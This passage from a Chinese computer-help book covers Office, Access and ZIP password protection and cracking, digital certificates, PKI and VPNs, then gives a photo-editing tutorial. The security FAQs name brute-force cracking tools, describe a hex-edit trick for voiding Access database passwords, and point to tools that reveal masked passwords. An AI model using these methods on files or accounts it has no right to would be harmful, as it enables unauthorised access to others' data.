该软件使用极其简单，运行后，把需要计算MD5值的文件用鼠标拖到正在处理的框里边，下面将直接显示其MD5值以及所测试的文件名称，可以保留多个文件测试的MD5值，选定所需要复制的MD5值，用“CTRL+C”组合键就可以将其复制到其他地方进行校验了。

#### 6.11 如何对Word文件进行加密和解密？

答：首先打开Word文件，执行“文件”菜单的“另存为”命令，打开“另存为”对话框。打开对话框上方“工具”菜单下的“安全措施选项”，然后根据需要在弹出的“安全性”对话框中设置“打开权限密码”或“修改权限密码”（注意，设置“打开权限密码”之后，不知道密码的用户将无法打开文档；设置“修改权限密码”之后，其他用户仍然可以打开文档进行浏览，而仅仅只是不能对文档进行修改），最后单击“确定”按钮即可。在创建密码之后，请将其记录下来并保存在安全的地方。如果丢失密码，将无法打开或访问受密码保护的文档。

MSOfPass是一个专门解除Office文档密码的应用程序。启动程序后，首先单击“Settings”按钮，打开“Brute”菜单下的“force-settings”对话框，对MSOfPass的解除状态进行设置。返回主菜单之后，只需将需要解除密码的Word或Excel文件拖拽到主菜单中，MSOfPass即会根据用户指定的范围采用穷尽法对所有可能的密码进行测试，直到找到密码为止。MSOfPass的下载网址为：http://www.lostpassword.com。

#### 6.12 如何对Access数据库进行加密和解密？

答：对Microsoft Access数据库进行密码保护是最简单的保护方法。设置方法如下：

设置之前，首先要关闭Microsoft Access数据库。如果是共享数据库，确保所有其他用户都已关闭了该数据库。然后为数据库制作一个备份，并将其存储在安全的地方。在“文件”菜单上，单击“打开”。然后单击“查找范围”框右边的箭头，选择Microsoft Access数据库（.mdb）所在的驱动器或文件夹的位置，单击数据库的图标。单击“打开”按钮右侧的箭头，单击“以独占方式打开”。打开文件后，在“工具”菜单上，指向“安全”，然后单击“设置数据库密码”。在“密码”文本框中，键入自己的密码。

此外，还可以利用UltraEdit等软件采用二进制格式打开加密后的Access数据库，然后将地址为0042的字节改为86并存盘退出，数据库的密码即失效（建议执行此操作前先做一个备份）。我们还可下载AAPR（Advanced Access Password Recovery）程序来解除Access数据库密码，地址为：http://www.elcomsoft.com。

#### 6.13 如何对WinZip、WinRAR等文件进行加密和解密？

答：WinZip和WinRAR都是我们使用比较多的压缩工具软件。首先来看看WinZip这个软件压缩时的加密设置，右击需要压缩的文件，并从弹出的快捷菜单中执行“Add to ZIP”命令，进入压缩界面，然后单击“Password”按钮，打开密码对话框并输入所需的密码即可。当需要解压或浏览某个文件时，系统就会要求用户输入密码。使用WinRAR设置密码的过程与WinZip比较类似。如图24所示。


关于如何破解WinZip密码的方法有很多，这里介绍一个比较实用的破解方法。我们就可以到“http://www.elcomsoft.com/”下载解密软件AZPR（Advanced ZIP Password Recovery）对密码进行搜索。我们只需从“ZIP Password – encrypted file”对话框中选择需要解除的ZIP压缩包，并在“Brute – Force range options”对话框中选择密码的范围，如是否包括大小写字母、是否包括数字、空格、符号或包括所有内容等，最后单击“Start”按钮，系统就开始采用穷举法对所有可能的密码组合进行测试，找到密码后再将其显示出来。破解WinRAR密码的方法与之类似。

#### 6.14 如何解密用“*”号隐藏的密码？

答：首先可以到“http://www.snadboy.com/”下载Snadboy这个软件，它是一个专门用于解除应用程序对话框中采用“*”显示的密码的工具软件，它可将这些密码的原始字符查找出来，并显示到用户的面前。使用它解除密码时，只需先打开其他应用程序并显示出密码对话框（即显示“*”），然后用鼠标将Snadboy“密码区选择器”中的“十字架”拖到这些应用程序的“*”密码上，Snadboy就会将这些“*”密码解除出来，并将其原始字符显示到“密码”框中。除此以外，类似的软件也有很多，如VIEWPASSWORD等等。

可以查看“*”号内容的软件还有很多，如“搜易口令钥匙”软件，只要将下载的压缩包解压到一个文件夹，再点其中的“seekey.exe”即可启动软件。使用方法很简单，只要将窗口右上方的钥匙图标拖动到有保存密码的软件窗口中，然后再点击“查看密码”按钮，弹出的对话框中会询问是否将这个软件用于合法的用途。点击“是”按钮就能查看刚刚选定窗口中的密码资源了。

#### 6.15 如何使用JavaScript进行加密保护？

答：利用JavaScript进行密码保护可以在一定程度上达到保护密码的作用，代码如下。

```
<SCRIPT LANGUAGE="JavaScript"><!--
function go ( ) {
window.location.href = "http://www.somewhere.com/" +
document.formName.passwordName.value + '.html';
return false;
}
//--></SCRIPT>
```

在网页中使用这段JavaScript脚本的方法为：

```
<FORM NAME="formName" onSubmit="return go ( ) ">
输入密码： <INPUT TYPE="password" NAME="passwordName"
VALUE="" SIZE=8>
</FORM>
```

使用这段JavaScript脚本的一个缺点是用户可以检查源代码并发现文件目录的位置。为了寻求更好的安全措施，你应该通过放置一个缺省的文件（index.html）到JavaScript脚本里面来保护你的文件目录，这样当目录被请求的时候你的服务器总是发送过去。如果你没有包括一个缺省的文件在你的文件目录，网络服务器就发送所有包含在你文件目录的所有文件，这正是不安全的隐患。这里要指出的是，使用JavaScript来对一个文件进行密码保护也不是一个非常安全的方法。为了达到较高的安全系数，这里推荐使用CGI或者服务器函数，比如“.htaccess”函数。

#### 6.16 什么是数字证书？

答：数字证书是一个经证书授权中心数字签名的包含公开密钥拥有者信息以及公开密钥的文件。它提供了一种在Internet上身份验证的方式，是用来标志和证明网络通信双方身份的数字信息文件，与司机驾照或日常生活中的身份证相似。在网上进行电子商务活动时，交易双方需要使用数字证书来表明自己的身份，并使用数字证书来进行有关交易操作。通俗地讲，数字证书就是个人或单位在Internet上的身份证。数字证书是由认证中心即CA中心颁发的。最简单的证书包含一个公开密钥、名称以及证书授权中心的数字签名。一般情况下证书中还包括密钥的有效时间，发证机关（证书授权中心）的名称，该证书的序列号等信息，证书的格式遵循相关国际标准。有了数字证书，我们在网络上就可以畅通无阻。

从数字证书使用对象的角度分，目前的数字证书类型主要包括：个人数字证书、单位数字证书、单位员工数字证书、服务器证书、VPN证书、WAP证书、代码签名证书、表单签名证书。从数字证书的技术角度分，CA中心发放的证书分为两类：即SSL证书和SET证书。其中，SSL证书是服务于银行对企业或企业对企业的电子商务活动的；SET证书是服务于持卡消费、网上购物。

#### 6.17 国内有哪些CA认证中心？

答：下表提供了一些国内相关的网站参考地址：

| 名称 | 网址地址 |
| --- | --- |
| 吉大正元 | http://www.jit.com.cn/ |
| 北京国富安安全认证有限公司 | http://www.gfapki.com.cn |
| 广东省电子商务认证中心 | http://www.cnca.net |
| 湖北数字证书认证中心 | http://www.hbca.org.cn |
| 重庆数字证书认证中心 | http://www.cqca.net |
| 北京CA中心 | http://www.bjca.org.cn/ |
| 福建CA认证中心 | http://www.fjca.com.cn |
| 山东省数字证书认证中心 | http://www.sdca.com.cn/ |
| 陕西省数字证书认证中心 | http://www.snca.com.cn/ |
| 山西省数字证书认证中心 | http://www.sxca.com.cn/ |
| 西部安全认证中心 | http://www.cwca.com.cn |
| 河北电子商务认证有限公司 | http://www.hebca.com/ |
| 河南省数字证书认证中心 | http://www.hnca.com.cn/ |
| 浙江省数字证书认证中心 | http://www.zjca.com.cn/ |
| 吉林省数字证书认证中心 | http://www.jlca.com.cn/ |
| 安徽省数字证书认证中心 | http://www.ahca.org.cn/ |
| 深圳市电子证书认证中心 | http://www.szca.com.cn/ |
| 广西省数字证书认证中心 | http://www.gxca.com.cn/ |

#### 6.18 什么是电子签名技术？

答：电子签名泛指所有以电子形式存在，依附在电子文件并与其逻辑关联，可用以辨识电子文件签署者身份，保证文件的完整性，并表示签署者同意电子文件所陈述事实的内容。一般来说，对电子签名的认定，都是从技术角度而言的。从广义上讲，电子签名不仅包括我们通常意义上讲的“密钥加密”，还包括计算机口令、生物笔迹辨别、指纹识别，以及新近出现的眼虹膜透视辨别法、面纹识别等。

比如，在计算机上安装新软件时，系统文件和设备驱动程序文件有时会被未经过签名的或不兼容的版本覆盖，导致系统不稳定。随 Windows XP 一起提供的系统文件和设备驱动程序文件都有 Microsoft 电子签名，这表明这些文件都是原始的未更改过的系统文件，或者它们已被 Microsoft 同意可以用于 Windows。在 Windows 2000/XP 中提供了“文件签名验证”工具，Windows 9x 则提供了“系统文件检查器”，我们可以通过这些工具来检查系统文件的电子签名状态。

另外，电子签名使用的数字证书还可以存储在智能卡和 USB 电子令牌之类的硬件设备中，这些存储介质自身有安全性高、携带方便等特点，进一步提高了操作的安全性。为了让读者朋友详细了解相关过程，本文将提供一个实例，相关证书和软件都可以免费获得。电子签名技术使用非常广泛，如网上金融服务、基于 Web 的电子签名解决方案等。

## 6.19 什么是 PKI 技术？

答：PKI (Public Key Infrastructure) 是通过使用公开密钥技术和数字证书来确保系统信息安全并负责验证数字证书持有者身份的一种体系。例如，某企业可以建立公钥基础设施 (PKI) 体系来控制对其计算机网络的访问。在将来，企业还可以通过公钥基础设施 (PKI) 系统来完成对进入企业大门和建筑物的提货系统的访问控制。PKI 采用各参与方都信任一个同一 CA (认证中心)，由该 CA 来核对和验证各参与方身份的身份这种信任机制。例如，许多个人和企业都信任合法的驾驶证或护照。这是因为他们都信任颁发这些证件的同一机构 -- 政府，因而他们也就信任这些证件。通过 PKI，交易双方共同信任签发其数字证书的认证中心。

#### 6.20 什么是数字水印？

答：数字水印技术的基本思想源于古代的密写术，它是通过一定的算法将一些标志性信息直接嵌入多媒体内容当中，但不影响原内容的价值和使用。水印信息可以是作者的序列号、公司标志、有特殊意义的文本等，可用来识别文件、图像或音乐制品的来源、版本、原作者、拥有者、发行人、合法使用人对数字产品的拥有权。与加密技术不同，数字水印技术并不能阻止盗版活动的发生，但它可以判别对象是否受到保护，监视被保护数据的传播、真伪鉴别和非法拷贝、解决版权纠纷并为法庭提供证据。

数字水印技术目前正处于一个快速发展和持续深入的阶段，应用领域也在快速扩展。从最初的图像水印、音频水印，发展到软件水印、视频水印、文字水印；从最初的算法研究，扩展到行业领域的应用，如数字地图的版权保护、数字图书的版权保护、证件防伪、多媒体数据的检索、电子公文防篡改等。

## 6.21 什么是 VPN 技术？

答：VPN (Virtual Private Network, 虚拟专用网) 是近年来随着 Internet 的发展而迅速发展起来的一种技术。它被定义为通过一个公用网络建立一个临时的、安全的连接，是一条穿过混乱的公用网络的安全、稳定的隧道。虚拟专用网是对企业内部网的扩展，可以帮助远程用户、公司分支机构、商业伙伴及供应商同公司的内部网建立可信的安全连接，并保证数据的安全传输。虚拟专用网 (VPN) 解决方案将大幅度地减少用户花费在城域网和远程网络连接上的费用。同时，这将简化网络的设计和管理，加速连接新的用户和网站。另外，虚拟专用网还可以保护现有的网络投资。

目前 VPN 主要采用四项技术来保证安全，这四项技术分别是隧道技术 (Tunneling)、加解密技术 (Encryption & Decryption)、密钥管理技术 (Key Management)、使用者与设备身份认证技术 (Authentication)。

#### 6.22 什么是网络隔离技术？

答：网络隔离，英文名为 Network Isolation，主要是指把两个或两个以上可路由的网络 (如：TCP/IP) 通过不可路由的协议 (如：IPX/SPX、NetBEUI 等) 进行数据交换而达到隔离目的。由于其原理主要是采用了不同的协议，所以通常也叫“协议隔离”(Protocol Isolation)。网络隔离的关键是在于系统对通信数据的控制，即通过不可路由的协议来完成网间的数据交换。隔离概念是在为了保护高安全度网络环境的情况下产生的，它经历了五个发展阶段：完全的隔离、硬件卡隔离、数据转播隔离、空气开关隔离、安全通道隔离。

刻录的音乐 CD 不能播放
问：我用刻录机在电脑上刻录了一张音乐光盘，光盘里所设置的文件格式是 MP3 格式，刻完以后我在电脑上用播放器是可以放出来的，但将光盘拿到我的 CD 播放机上却不能播放，请问这是怎么回事？
答：你要看一下 CD 播放机是否支持 MP3，很多 CD 播放机是不支持 MP3 格式的。如果真是不支持该格式所导致的问题，你可以使用新版的 RealPlayer 或 Windows Media Player 来刻盘，这两个播放软件可以很方便地刻出 CD 格式文件，这样就能播放了。你也可以使用 Nero Burning ROM 这款专业刻录软件来刻录 CD 格式光盘。需要注意是如果在刻录光盘时速度太快，也有可能造成 MP3 文件无法播放，你在刻录时尽量使用中、低速度。

提示：由于本文涉及的数码照片处理，通过黑白印刷不能很逼真地展示效果，因此特制作成电子书，放在本书的配套光盘中，以供读者能更真切地比较体会。

## 玩转数码——轻松玩转数码相片

作者：Kingjames、无蓝、白日梦

引言：随着数码相机的广泛普及，越来越多的用户希望掌握数码相片的处理方法。对于广大“菜鸟”用户来说，学会用Auto模式来拍摄相片已经很不容易了，用Photoshop来处理相片？！那真是不可能完成的任务了。本文的目的就是让Photoshop下岗，让菜鸟也能玩转数码相片处理，让爷爷奶奶也能打造出精美的数码相片效果！不信？跟着来看吧。

大家都说Adobe Photoshop是平面处理软件中的龙头老大，功能超级强大，用它来处理数码相片自然是游刃有余，但未免有点牛刀杀鸡的感觉，要知道Photoshop软件售价相当昂贵，对电脑硬件配置的要求也较高，而且用Photoshop处理数码相片的步骤都比较繁多。更为重要的是，掌握Photoshop并非是那么容易的一件事，尤其对于电脑基础薄弱的家庭用户来说，盲目跟风地去学习用Photoshop处理数码相片是很不明智的行为。

其实，除了Photoshop外，还有很多实用的数码相片处理软件，这些软件是针对数码相片的处理和管理而专门设计的，操作简便，哪怕对电脑一窍不通的用户也能很快学会它们的使用方法，打造出的效果却丝毫不逊色于Photoshop。本文将详细介绍光影魔术手、Picasa2这两款优秀软件在数码相片处理和管理方面的应用。

### 第一篇 光影魔术手——nEO iMAGINE

光影魔术手不仅仅仅是有好听的名字，它是一个对数码照片画质进行改善及效果处理的软件，拥有相当数量级的用户，深受广大数码影像爱好者欢迎。光影魔术手在处理数码图像时的特色很鲜明——高速、实用、易于上手。

光影魔术手是共享软件，不过未注册版本也没有任何功能限制，只是偶尔屏幕上会弹出“未注册”的提醒。本文所有内容均基于光影魔术手0.22版，其安装文件的大小仅有2.6MB。光影魔术手的官方主页为http://www.neoi maging.cn/，读者可以到这个网址下载安装文件和花样边框、撕边边框等素材。

下载光影魔术手后，双击安装文件并单击“安装”按钮即可进行安装，如果你原来安装过老版本的光影魔术手，则在安装时会弹出“确认文件替换”对话框，选择“全部皆是”即可。

安装完成后双击桌面的“光影魔术手”图标即可启动软件，启动速度非常之快。如图1所示为光影魔术手的主界面，明显比Photoshop的界面简单多了。主界面下方是工作区，上方是菜单栏和工具栏，通过工具栏即可完成大部分对数码相片的处理工作，通过菜单栏则能实现更多的处理功能。


单击工具栏上的“打开”按钮（按Ctrl+O快捷键或者使用“文件”→“打开”命令也可），即弹出“打开”对话框，选择要打开的相片并单击“确定”按钮即可将其打开，如图2所示。

提示：启动光影魔术手以后，用鼠标双击窗口的空白处就可以迅速打开照片。在光影魔术手打开某幅图片后，可以按PageUp（上一张）、PageDown（下一张）、BackSpace（上一张）、Home（第一张）、End（最后一张）键浏览当前图片所在路径/文件夹里的其他图片。按Esc键即可快速退出光影魔术手软件。

打开相片后，在工作区右方可以看到相片的EXIF信息。很多读者可能不了解EXIF值的的确切含义，下面解释一下：

EXIF，是英文Exchangeable Image File（可交换图像文件）的缩写，EXIF其实是一种图像文件格式，只是文件的后缀名还是沿用大家熟悉的jpg而已。实际上，EXIF信息就是数码相机在拍摄过程中生成，并放置在我们熟知的jpg文件的头部的一系列信息，也就是说EXIF信息是镶嵌在JPEG图像文件格式内的一组拍摄参数，主要包括摄影时的光圈、快门、ISO、日期时间、以及相机品牌型号、色彩编码、拍摄时录制的声音等信息。

EXIF信息对摄影发烧友来说尤其有用，了解相机型号和拍摄参数等信息，便于广大摄影爱好者学习和模仿高手。


#### 一、快速处理数码相片

首先来快速领略一下光影魔术手的简便和强大。在拍摄数码相片后，我们希望快速处理后将其在网上发布或跟朋友共享，这时使用光影魔术手的“自动”功能最合适不过了。

双击光影魔术手的工作区，选择并打开待处理的数码相片，然后单击工具栏的“自动”按钮右边的三角形按钮，在弹出的下拉菜单中选择需要的快速处理方法（见图3）。“自动”其实是一个批处理方案，它把一些光影魔术手的动作合并为一个步骤，只要单击一次即可完成这些动作，非常方便。


“自动”动作有三种预设的方案，其中前面有个小脚印图标的方案是缺省动作，直接单击“自动”按钮就等于在“自动”的下拉菜单中选择了这个缺省动作。需要注意的是，三种“自动”动作都会缩小相片的尺寸，将较大的相片分辨率更改为较小数值，这样做的目的是减小文件尺寸，便于网上发表和传输。

如图4所示为一张摄影作品，下面我们来看看这三种“自动”动作所带来的不同效果。提示：下面所示诸多图片仅为局部效果，本书附带光盘中有此文的电子书，其中图片则为全局效果，请读者自行欣赏。


##### 1. “DSLR作品处理”

DSLR 即 Digital Single Lens Reflex，数码单反相机。此选项是针对数码单反相机的作品进行快速处理的。经过此项处理后，相片色彩会变得更加艳丽，反差更鲜明，一下就增色不少！同时上下边缘都加上黑色边框，并在下方黑色边框上显示相片的 EXIF 信息。

提示：如果对效果不满意，可以按 Ctrl + Z 快捷键或者单击工具栏上的“撤销”按钮来取消上一次执行的操作。光影魔术手支持无限次的“撤销”操作，可以让我们的编辑操作更加方便。


##### 2. “摄影作品发布前处理”

经过此项处理后，相片色彩也变得更加艳丽，反差更鲜明，同时给相片四周加上简单黑色边框，并在相片中间位置显示 EXIF 信息。注意观察即可看出，“DSLR 作品处理”会保持照片的长宽比例，而“摄影作品发布前处理”会对相片进行裁剪。


##### 3. “花样边框+水印”

给相片加上“花样边框”和预设的水印，同样，此操作也会对相片进行裁剪。复杂花哨的“花样边框”会使你的作品增色，但也可能会有喧宾夺主的危险哦，要小心使用。在网上发布摄影作品时，很多用户希望在照片的角落打上一个水印，既可以保护作品的版权，又可以彰显作者的个性。使用这个“自动”动作可以一步到位，非常方便。


通过上面的演练，相信读者已经感受到了光影魔术手的魅力：通过一个单击动作，就能快速完成相片处理工作，并且大大改善了相片的色彩和光线，表现更加出色。

提示：光影魔术手默认使用“处理模式/单页”的查看模式，读者还可以选择“查看”→“对比模式/双页”命令，在工作区里会将原始图片（左）和处理中的图片（右）并排放置，如图8所示，这样可以更方便地进行处理前后的效果对比。


如果不习惯双页模式，可以选择“查看”→“处理模式/单页”命令，恢复默认的显示模式。在使用“自动”功能后，别忘了单击“保存”或“另存”按钮（或按 Ctrl + S 快捷键）将处理后的相片保存起来。“保存”是保存对源文件进行的编辑和修改，直接覆盖源文件；而“另存”则不覆盖源文件，将处理后的相片重命名保存为一个副本文件。为了保留原始相片的信息，建议多使用“另存”命令。在选择保存格式时，如无特殊要求，我们一般保存为 JPG/JPEG 格式，这时会弹出如图9所示的对话框，让用户选择保存图片的质量精度。较低的图片质量可以获得较小的文件，而高质量的图片文件则较大。通常都选择最高的图像质量（即将滑块拖到最右方，值为100），单击“确定”按钮即可，其余选项不用去做调整。如果要将相片在网上发布，又不想泄漏自己的拍摄数据，则应该选择“EXIF选项”下的“删除EXIF信息”再保存相片。


##### 4. 自动动作菜单设置

我们可以对现有的“自动”动作进行编辑，也可以根据需求，自己设计新的“自动”动作。
例如，你习惯用光影魔术手来这样处理照片：每次打开一张数码照片以后，先缩小尺寸，然后做一个正片，然后自动曝光，然后加个边框。如果不用“自动”，你每次都要通过四个步骤来完成这一系列动作。而如果使用自动功能，你可以把这一组动作定义在“自动”按钮的下拉菜单中，每次只要单击一下，就自动完成这一组动作，是不是很方便？

单击“自动”按钮下拉菜单中的“自动动作菜单设置”命令，会出现如图10所示的“设置”对话框，可以在这里新增、删除和编辑“自动”动作，也可以把某个动作设为缺省动作（即直接单击“自动”按钮时会使用的默认动作）。


选中某个“自动”动作（如“摄影作品发布前处理”）后，单击“编辑”按钮，弹出“批量自动处理”对话框（见图11），在这里可以对这个“自动”动作进行详细设置，设置方法如下：

- 为有的分动作设置参数。例如，在左边动作列表中单击“文字签名”，然后在右边“动作选项设置”下单击“文字签名”按钮，打开“批量缩放设置”窗口来对这个分动作进行详细设置。
- 可以通过单击带“+”号的按钮来添加新的分动作，也可选中某个分动作后单击带“-”号的按钮来将其删除；
- 可以通过单击上下箭头按钮来调整分动作的顺序。


我们还可以选择“保存为新方案”，将自己编辑的新“自动”动作（也就是一个新的批处理方案）与朋友分享，朋友只需要选择“导入其他方案”，将批处理方案导入即可使用。

#### 二、详细处理数码相片

光影魔术手的“自动”功能虽然很方便，但功能毕竟有限，如果要细致地、按部就班地处理数码相片，还需要学习下面的内容。

##### 1. 校正翻转和倾斜的相片

谁也不能保证自己拍摄相片的水平线永远不会倾斜，数码相片不可避免会出现倾斜的情况，这时应该对照片进行旋转，将其校正。
如果照片倾斜的角度为90度或180度，则这时可以单击“旋转”按钮右方的箭头，在下拉菜单中选择要旋转的方向和角度，如图12所示。


也可以直接单击“旋转”按钮，这时会出现如图13所示的“旋转”对话框，可单击各个按钮对图片进行旋转，这跟上面使用“旋转”按钮下拉菜单中的命令效果是一样的。
很多情况下，我们不但需要使照片转动90度，把横的调成竖的，还需要对照片的水平线进行一定角度地微调，令照片中的地平线尽量保持水平，这时应该选择“自由旋转”命令（或单击图中的“任意角度”按钮）。

在“自由旋转”对话框（图14）中，可以看到“旋转角度”选项，自由旋转主要通过调整“旋转角度”这个参数，来控制图片的旋转。当然，如果估算并输入“旋转角度”来控制图片的旋转，就不够方便易用了，因为这个角度光凭观察谁也说不准。一般不这么用！


正确的做法是：在“自由旋转”对话框的预览图上单击并拖动鼠标，画出正确的水平或垂直参考线，这时上方的“旋转角度”上会计算出需要旋转的角度，此时可单击“预览”按钮查看旋转后的效果。画水平或垂直参考线时要注意观察，可以是沿地平线画，也可以延垂直线画，例如画面中的树、楼等，沿着它们画线，也同样有效果的。如果在单击“预览”看到的旋转效果不满意，没关系，可以继续画线继续旋转，或者单击“复位”按钮，恢复成原来的照片重头来过。
如图15所示，真实水平线（即地面）应该跟海平面平行，所以就沿海平面画出水平参照线。最后单击“确定”按钮，会看见倾斜的图片已经被矫正了。
细心的读者会观察到，旋转过后的相片会出现白边，需要对其进行裁剪，下一节中会讲解具体操作方法。


##### 2. 把相片的多余部分剪去

拍照时不可避免地会将一些无关的景物拍进来，在旅游胜地拍照时，人群熙熙攘攘，想必这种感受会尤其深刻。不过没关系，我们可以拍进来的多余的部分剪去。

在上一节中讲到，照片经过旋转后可能会出现白色空白区域，这也需要进行“裁剪”操作。

另外，如果要冲洗数码相片，也需要对其进行裁剪操作。这是因为，数码相机拍摄的照片一般是4：3的比例（与我们的显示器的比例一致），而扩印的照片的比例一般是3：2左右的（与胶卷负片的长宽比例一致），要使冲洗出来的相片正好充满整张相纸，就要对相片进行裁剪操作。

打开图片后，单击“裁剪”按钮右边三角形按钮，在下拉菜单中有很多预设的剪裁方法，例如“按4：3比例剪裁”、“按3：2比例裁剪”、“按5寸/3R照片比例剪裁”、“按身份证照片比例裁剪”等等，可以根据实际需要选择。

例如，我们要将数码相片冲印为6寸照片，则应该选择“按6寸/4R照片比例裁剪”命令；如果要将数码相片冲印为身份证件照，则应该选择“按身份证照片比例裁剪”命令。

如果要进行更为详细的剪裁，比如要剪掉相片中的某个多余部分，则应单击“裁剪”按钮，打开“裁剪”对话框（如图16所示），拖动鼠标，拉出要保留的区域并单击工具栏上方的“确认”按钮，如果裁剪效果满意则单击右下角的“确定”按钮；如不满意可以单击“恢复”按钮，取消裁剪操作，重新进行裁剪。


读者可能注意到了，“裁剪”对话框上方工具栏上还有一些“靠上”、“居中”和“靠下”这样的按钮，这些按钮的左右是为了辅助设定裁剪区域，在设定好裁剪区域后，可以单击这些按钮调节裁剪区域，如单击“靠上”按钮，则裁剪区域会自动位于靠上位置。

在某些特殊情况下（例如冲印），需要按比例来对相片进行裁剪，这时可以选择“按宽高比例裁剪”选项，设定宽、高比，再拖动鼠标来设定裁剪区域。

##### 3. 缩放相片尺寸

经过上述两步处理后，需要对相片进行缩放操作了。

目前主流数码相机的CCD/CMOS像素达到了800万甚至更高数值，分辨率达到3456×2304甚至更高，用高分辨率拍摄下来的单张相片容量往往都达几MB，比如你要把相片发布到网上，或者传给亲友分享，那么往往会受到很多限制。简单来说，目前大部分原始拍摄所得的数码相片尺寸都偏大了，我们需要将其缩小。缩小数码相片尺寸的作用有两个：一是减小相片尺寸，方便我们查看；二是减小相片文件的容量，方便我们存储、发送Email、网络传输或上传到网页。

注意：要缩小相片文件的大小，第一选择是通过缩小相片尺寸来实现，而不是靠降低相片质量来实现。有朋友说，用光影魔术手、ACDSee或Photoshop等软件将相片另存为JPEG格式时，选择较差的存储质量不就可以减小数码相片的文件大小了？事实上这种做法的效果并不好，虽然这种方法可以有效减小相片的文件大小，但相片的尺寸大小是不会改变的，而且会造成相片质量下降。一张尺寸硕大的数码相片，画面质量却很差，这有什么意义呢？我们宁愿要一张尺寸相对较小，但质量没有任何损失的相片。所以正确的处理方法应该是首先缩小相片的尺寸，而不要降低相片的质量精度。经过缩小尺寸的操作后，如果相片文件仍然过大，再使用软件进行优化即可，最简单的办法就是另存为JPG/JPEG文件时，选择较低的质量精度。

在nEO iMAGING中，使用“缩放”功能即可改变相片的尺寸大小。单击工具栏上的“缩放”按钮，弹出“调整图象尺寸对话框”（见图17），输入“新图片宽度（像素）”和“新图片高度（像素）”，单击“开始缩放”按钮即可。如果对更改的图片尺寸不满意，可以单击“复位”按钮恢复原始尺寸，再重新设定。


读者可能会问，缩放到多大才合适呢？对于数码相片的缩放尺寸，建议如下：

如果是用于在电脑上欣赏或在网络上发布，则应该缩放为常见的数码相片尺寸，如800×600、1024×768、1280×960、1600×1200等，以便于全屏欣赏相片，也便于网页浏览。单击右方的“快速设置”按钮，可以在其下拉列表中快速选择这些常见的数码相片尺寸。

如果数码相片要用于冲印，可以参考下表进行缩放操作，低于建议分辨率则不能获得满意的冲印效果。

| 相片规格 | 英寸 | 建议分辨率 |
| :--- | :--- | :--- |
| 5寸 | 3.5×5 | 800×600 |
| 6寸 | 4×6 | 1024×768 |
| 7寸 | 5×7 | 1280×960 |
| 8寸 | 6×8 | 1536×1024 |
| 10寸 | 8×10 | 1600×1200 |
| 12寸 | 10×12 | 1712×1368 |
| 15寸 | 15×10 | 2048×1920 |

如图17所示，默认情况下缩放图像尺寸时，是选中了“维持原图片长宽比例”选项，这样在缩放时可以保证图片不被拉伸或压缩导致变形，除非特殊情况，建议不要更改此选项。尤其是要冲印数码相片时，前面我们已经通过裁剪，使相片与相纸的长宽比例一致，这里就更不要更改相片的长宽比例了。

##### 4. 对相片进行光影处理

摄影非常强调光影，有光才有影，而光的质量，所谓光强度和光质，则是构成一幅摄影作品的元素。所以数码相片改善处理中最重要的应该是光影处理，而光影魔术手在这方面的强大功能绝对不会让你失望的。

在日常生活中，我们通常因为光线的原因，拍出来的照片变的很暗，看不清楚，这时就希望可以通过软件的调整，使光线变明亮。这个时候光影魔术手的“曝光”、“补光”、“数码补光”和“数码减光”就会大派用场了。

如果相片亮度过低或过高，可以单击工具栏上的“曝光”按钮，来自动调节亮度，获得较好的光线效果。据作者试验，“曝光”功能对于稍微偏暗（或偏亮）的相片改善效果很好，对于那些有严重曝光缺陷的相片效果则不太好。

###### (1) 数码补光

背光拍摄的相片容易出现“黑脸”的情况，利用数码“补光”功能，可以挽救相片中曝光不足的部位，使暗部的亮度得到有效提高，同时亮部的画质不受影响，明暗之间的过渡十分自然，暗部的反差也不受影响。并且特殊的补光算法在高反差的边缘也不会有光晕的现象产生，非常智能。使用时，只要单击工具栏上的“补光”按钮即可，如果一次“补光”效果不佳，可以多次单击“补光”按钮直到效果满意为止。如图18a和18b为一张典型的逆光照片


在使用“补光”前后的对比，可以看到黑脸已经得到了很好的改善，背景的大海蓝天并没有受到很大影响，并且，逆光部分（脸部和正面）原来的明暗对比还是保持着的，比较自然。使用“调整”→“亮度/对比度/Gamma”命令，简单地调高亮度显然不能达到这样的效果，那样会失去明暗对比，如图18c所示。


特殊说明: 为了获得更好的视觉效果，以及为了更好体现光影魔术手卓越的边框效果，本节中大部分效果图都添加了光影魔术手中的边框，特此提醒，希望读者在阅读时不要造成误解。

除了单击工具栏上的“补光”按钮外，还可以使用“效果”→“数码补光”菜单命令，打开“数码补光”对话框（如图19所示），来进行更为详细的数码补光操作。可以调节三个参数以获得最佳的补光效果，当调节各个参数时，工作区的相片可即时预览到相应的效果，效果满意时单击“确定”按钮即可。


使用“数码补光”菜单和单击“补光”按钮的效果是类似的，只不过“数码补光”的功能更强大，可操作参数更多，可以进行更细致的调节。

对“数码补光”三个参数的解释如下，希望对读者有所帮助。

范围选择: 主要是用来控制照片中需要补光的面积。这个数字越小，补光的面积就越小。这有一个好处，当“范围选择”比较小的时候，不会影响画面中亮的部位的曝光。

补光亮度: 确定好范围以后，提高“补光亮度”，就可以直接有效地提高暗部的亮度了。一般这个参数设置在80以下是比较合适的。如果太高，有些照片可能对比度会受到影响。

强力追补: 如果照片的欠曝情况比较严重，提高“补光亮度”以后，暗的地方还是很暗，效果不明显，那么就需要动用这个参数了。提高这个参数值，可以有效地提高暗部的亮度。

###### (2) 数码减光

除了数码补光外，我们还会常常用到数码减光功能。有的照片拍摄的时候离得太近打了闪光，结果有的部分太亮了，看不清楚原来的颜色了；有的照片，天空明明应该很蓝的，但拍出来却不是特别蓝，颜色失真，其实也是因为曝光过度造成的。对于这类局部曝光过度的照片，推荐用户使用“数码减光”。


使用“调整”→“数码减光”菜单即可打开“数码减光”对话框（图20）。与“数码补光”类似，“数码减光”只有很简单的两个参数，它可以在不影响正常曝光内容的情况下，把照片中太亮的部分给“还原”回来。与“数码补光”一样，在简化操作的同时，效果也十分明显，过渡很均匀，不过出现边界光晕。如图21所示，为“数码减光”前（a）后（b）的相片效果。

###### (3) 使用“曲线”工具调整色调

在光影魔术手中有五种方式可以改变色调，它们分别是: 色阶、曲线、亮度/对比度/Gamma、RGB色调、通道混合器。这五种方式都处于“调整”菜单中。

图 21a 一张典型的过曝的相片，颜色明显失真

图 21b 经过“数码减光”处理后，可以看到高光部分得到了有效还原，脸部呈现出了较好的明暗对比，整张相片的色彩也趋近正常了

光影魔术手的精髓就在于简便易用，如果舍易求难，就违背了这个软件的初衷了。所以这里我们决定介绍调整色调和影调最实用的工具——曲线，掌握了这个强大的工具，问题也就迎刃而解了。

